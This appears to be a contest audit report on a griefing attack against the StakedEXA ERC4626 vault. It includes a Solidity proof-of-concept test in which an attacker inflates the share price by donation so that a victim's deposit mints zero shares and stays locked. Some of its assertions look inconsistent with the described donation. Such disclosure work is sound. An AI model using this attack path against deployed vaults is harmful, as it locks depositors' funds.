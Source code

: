 Electric Holographic Albatross

High

# Attacker will lock victim funds in StakedEXA vault

### Summary

While the StakedEXA contract implements virtual shares to mitigate the ERC4626 initial deposit attack, an attacker can still manipulate the share price to effectively lock a victim's funds in the contract at a cost to themselves. This griefing attack leaves the vault in an unusual state and causes losses for victims.

Adding the following line to pass the github issue validation check, but this is a dependency issue arising from using ERC4626Upgradeable.

https://github.com/sherlock-audit/2024-07-exactly-stacking-contracts/blob/main/protocol/contracts/StakedEXA.sol#L129

### Root Cause

The use of virtual shares (adding 1 to totalSupply) mitigates profit for attackers but does not prevent manipulation of the share price through large donations.

### Internal pre-conditions

1. StakedEXA vault is deployed and initialized
2. Vault has very low total assets and total supply

### External pre-conditions

1. Attacker has a large amount of the underlying asset (EXA tokens)
2. Victim has some amount of the underlying asset they intend to deposit

### Attack Path

1. Attacker deposits a very small amount to mint initial shares
2. Attacker transfers a large amount of assets directly to the vault
3. Share price is now manipulated to be very high
4. Victim deposits assets but receives 0 shares due to rounding
5. Attacker withdraws their initial deposit plus a portion of the donation

### Impact

1. Victim's funds are locked in the contract
2. Vault is left in an unusual state with inflated share price
3. Attacker incurs a loss but successfully griefs the victim and the protocol

### PoC

```solidity
function testInitialDepositAttack() external {
    uint256 initialMint = 9;
    uint256 largeTransfer = 10_000 ether;
    uint256 victimDeposit = 1 ether;

    // Mint initial tokens
    exa.mint(address(this), initialMint + largeTransfer);
    exa.mint(BOB, victimDeposit);

    // Attacker mints a small number of shares
    exa.approve(address(stEXA), initialMint);
    stEXA.deposit(initialMint, address(this));

    // Attacker does a large donation
    exa.transfer(address(stEXA), largeTransfer);

    // Check share price manipulation
    assertEq(1 ether + 1, stEXA.convertToAssets(1 ether));

    // Victim stakes in vault
    vm.startPrank(BOB);
    exa.approve(address(stEXA), victimDeposit);
    stEXA.deposit(victimDeposit, BOB);
    vm.stopPrank();

    // Victim receives 0 shares due to manipulation
    assertEq(0, stEXA.balanceOf(BOB));

    // Attacker redeems their shares
    uint256 attackerShares = stEXA.balanceOf(address(this));
    stEXA.redeem(attackerShares, address(this), address(this));

    // Attacker loses some tokens but victim's tokens are locked
    assertApproxEqAbs(
        largeTransfer + initialMint - 1,
        exa.balanceOf(address(this)),
        10,
        "Attacker balance incorrect"
    );
    assertEq(0, exa.balanceOf(BOB), "Victim balance should be 0");
    assertEq(victimDeposit + 1, exa.balanceOf(address(stEXA)), "Vault balance incorrect");

    // Vault is left in a weird state
    assertEq(0, stEXA.totalSupply(), "Total supply should be 0");
    assertGt(stEXA.totalAssets(), 0, "Total assets should be non-zero");
}
```

### Mitigation

1. Implement a minimum deposit amount
2. Add slippage protection to the deposit function